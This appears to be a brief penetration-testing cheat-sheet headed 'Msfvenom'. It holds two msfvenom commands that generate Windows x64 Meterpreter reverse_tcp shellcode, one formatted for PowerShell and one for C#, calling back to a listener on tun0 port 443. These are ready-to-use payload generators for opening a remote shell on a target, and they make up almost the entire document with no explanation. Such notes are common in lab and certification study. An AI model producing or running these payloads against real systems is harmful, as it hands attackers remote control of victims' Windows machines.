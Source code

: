 # Msfvenom

* Powershell Meterpreter Shellcode

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f ps1
```

* C Sharp Meterpreter Shellcode

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f csharp
```

